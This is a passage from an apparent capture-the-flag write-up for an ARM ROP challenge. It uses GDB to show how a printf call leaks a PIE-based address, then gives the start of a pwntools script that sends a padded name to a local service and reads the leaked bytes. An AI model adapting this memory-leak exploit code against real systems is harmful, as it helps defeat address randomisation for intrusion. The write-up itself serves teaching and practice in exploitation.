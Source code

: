 And now we have a working GDB script, which coupled with the python from earlier leaves us one `continue` away from examining the registers at the printf call:

![GDB Screenshot](/assets/images/posts/baby_arm_rop/gdb_1.png)

At this call, we see a pointer to our string in $x1 ($x0 points to the format string) and we can dereference from there to see what printf will output - remember it's looking for a null terminated string and because we used read() to get ours, it's actually \n (0xa) terminated.

![GDB Screenshot](/assets/images/posts/baby_arm_rop/gdb_2.png)

As can be seen from the above, Ive already cheated to demonstrate the principle, but using 8 As, I've set the stack up so that printf will actually print our string, then the address following our string, until a null byte is reached (boxed in green). In this run, the PIE base printed via GDB was `0x0ffa000`, `0x80a` less than this address - perfect, we have a way of printing PIE base + `0x80a`!

The pwntools Python to run the leak is as follows:

```python
#!/usr/bin/env python3                                                                                                              
                                                                  
from pwn import *                                                                                                                   
from sys import exit             
                                                                  
context.log_level="DEBUG"
context.binary = elf = ELF("./vuln/vuln")                        
libc = ELF("./vuln/lib/libc.so.6")                                
                                                                  
p = remote("127.0.0.1",1337)                                                                                                        
                                                                  
################### Phase 1 - PIE Leak ###################                                                                          
name = b"A"*8  # Fill up the first address on stack
# Leak pie base using printf
p.sendlineafter(b"name: ",name)
p.readuntil(name)    # Read up to the printed address
PIE_BASE = p.readuntil("\n; send", drop=True)   # Read raw bytes of addr                                                                 
```